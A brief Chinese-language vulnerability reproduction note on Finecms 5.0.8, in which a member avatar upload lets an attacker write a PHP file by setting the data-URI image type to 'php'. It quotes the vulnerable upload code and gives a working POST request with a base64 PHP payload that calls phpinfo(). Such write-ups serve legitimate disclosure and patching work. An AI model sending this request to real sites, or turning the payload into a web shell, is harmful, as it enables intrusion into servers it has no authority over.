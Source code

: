 Finecms 5.0.8 会员中心任意代码执行漏洞
======================================

一、漏洞简介
------------

二、漏洞影响
------------

Finecms 5.0.8

三、复现过程
------------

### 漏洞分析

在文件`./controllersmemberAccount.php`中的upload函数

    if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                    $new_file = $dir.'0x0.'.$result[2];
                    if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                        exit(dr_json(0, '目录权限不足或磁盘已满'));
                    

### 漏洞复现

注册会员，登录访问：

    http://www.0-sec.org:88/index.php?s=member&c=account&m=upload

    POST：tx=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+

2.png

3.png

参考链接
--------

> http://4o4notfound.org/index.php/archives/40/
